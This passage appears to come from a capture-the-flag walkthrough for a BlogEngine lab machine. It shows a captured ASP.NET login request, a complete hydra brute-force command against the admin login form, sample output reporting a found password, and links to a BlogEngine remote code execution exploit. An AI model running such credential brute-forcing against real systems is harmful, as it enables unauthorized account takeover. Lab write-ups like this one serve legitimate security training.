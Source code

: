 There is a directory under the ip, named `Account` which has `POST:login.aspx`. Analyse the request `url` and `body` sent.

The request `url` will be similar to `http://<ip>/Account/login.aspx?ReturnURL=%2fadmin%2f`.

The request `body` will be similar to
{% capture code %}{% raw %}__VIEWSTATE=Fh%2BMZp8Cy8pFZwcHUtu4ghXOPoRgZKcqG5qA5S4yexakkHBwXVaiu75%2BUI7Wqx4VHyFiWcN%2BeBja%2B%2BG22qfdLsxtOu7hudc6LRo0t%2BWqPTLloLin9hNplx1RK2wzzpZhhCtZcTaPWI60ONPdPqfZERLDA%2B%2FNOjOMwqrT7ppZFmwZrtnTc8SDiBKp3k%2BFWkWDx9bpvuHcCqg0fjFAYBqPQx1dKsQw2FOL8BFGbCff9y7yXFhiwB9MJGdhwpzauqV9KY%2B%2FgLzgS6YLS0cJc429INqhS6CayTxe3Ov4qfPC2YhQSkIwaf7BkwCCBkW8gVWI%2BaEWAPexNRUghR2IygRzK4Qk8%2B%2BaZga3q%2Bl3FN9Okwmr3MUt&__EVENTVALIDATION=zhjBpvqO5BEqQCJSn%2F47YkRFFuv5ho%2Fm7SHImFmUgqzs7ko4RMao3Tjw5EsWFbmCdztfsRswoUJqDv%2BSF2rW3V7fjC4DDKajWEa7IYBvWZOIO8OsUKaDiviAnCbxleGuKxOXGnCa%2BXbt28nNxaecmG4%2FPxDgkc8VTKyeIg5CC4JLOFfI&ctl00%24MainContent%24LoginUser%24UserName=ZAP&ctl00%24MainContent%24LoginUser%24Password=ZAP&ctl00%24MainContent%24LoginUser%24RememberMe=on&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `hydra` to crack the password.
{% capture code %}{% raw %}hydra -l admin -P /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 16 <ip> http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=Fh%2BMZp8Cy8pFZwcHUtu4ghXOPoRgZKcqG5qA5S4yexakkHBwXVaiu75%2BUI7Wqx4VHyFiWcN%2BeBja%2B%2BG22qfdLsxtOu7hudc6LRo0t%2BWqPTLloLin9hNplx1RK2wzzpZhhCtZcTaPWI60ONPdPqfZERLDA%2B%2FNOjOMwqrT7ppZFmwZrtnTc8SDiBKp3k%2BFWkWDx9bpvuHcCqg0fjFAYBqPQx1dKsQw2FOL8BFGbCff9y7yXFhiwB9MJGdhwpzauqV9KY%2B%2FgLzgS6YLS0cJc429INqhS6CayTxe3Ov4qfPC2YhQSkIwaf7BkwCCBkW8gVWI%2BaEWAPexNRUghR2IygRzK4Qk8%2B%2BaZga3q%2Bl3FN9Okwmr3MUt&__EVENTVALIDATION=zhjBpvqO5BEqQCJSn%2F47YkRFFuv5ho%2Fm7SHImFmUgqzs7ko4RMao3Tjw5EsWFbmCdztfsRswoUJqDv%2BSF2rW3V7fjC4DDKajWEa7IYBvWZOIO8OsUKaDiviAnCbxleGuKxOXGnCa%2BXbt28nNxaecmG4%2FPxDgkc8VTKyeIg5CC4JLOFfI&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24RememberMe=on&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Failed"{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Hydra (http://www.thc.org/thc-hydra) starting at 2021-04-29 05:30:52
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://<ip>:80//Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=Fh%2BMZp8Cy8pFZwcHUtu4ghXOPoRgZKcqG5qA5S4yexakkHBwXVaiu75%2BUI7Wqx4VHyFiWcN%2BeBja%2B%2BG22qfdLsxtOu7hudc6LRo0t%2BWqPTLloLin9hNplx1RK2wzzpZhhCtZcTaPWI60ONPdPqfZERLDA%2B%2FNOjOMwqrT7ppZFmwZrtnTc8SDiBKp3k%2BFWkWDx9bpvuHcCqg0fjFAYBqPQx1dKsQw2FOL8BFGbCff9y7yXFhiwB9MJGdhwpzauqV9KY%2B%2FgLzgS6YLS0cJc429INqhS6CayTxe3Ov4qfPC2YhQSkIwaf7BkwCCBkW8gVWI%2BaEWAPexNRUghR2IygRzK4Qk8%2B%2BaZga3q%2Bl3FN9Okwmr3MUt&__EVENTVALIDATION=zhjBpvqO5BEqQCJSn%2F47YkRFFuv5ho%2Fm7SHImFmUgqzs7ko4RMao3Tjw5EsWFbmCdztfsRswoUJqDv%2BSF2rW3V7fjC4DDKajWEa7IYBvWZOIO8OsUKaDiviAnCbxleGuKxOXGnCa%2BXbt28nNxaecmG4%2FPxDgkc8VTKyeIg5CC4JLOFfI&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24RememberMe=on&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Failed
[STATUS] 720.00 tries/min, 720 tries in 00:01h, 14343678 to do in 332:02h, 16 active
[80][http-post-form] host: <ip>   login: admin   password: <password>
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2021-04-29 05:33:03{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 3 - Compromise the machine

### References
- [BlogEngine RCE](https://www.exploit-db.com/exploits/46353){:target="_blank"}
- [Searchsploit ref](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-searchsploit){:target="_blank"}
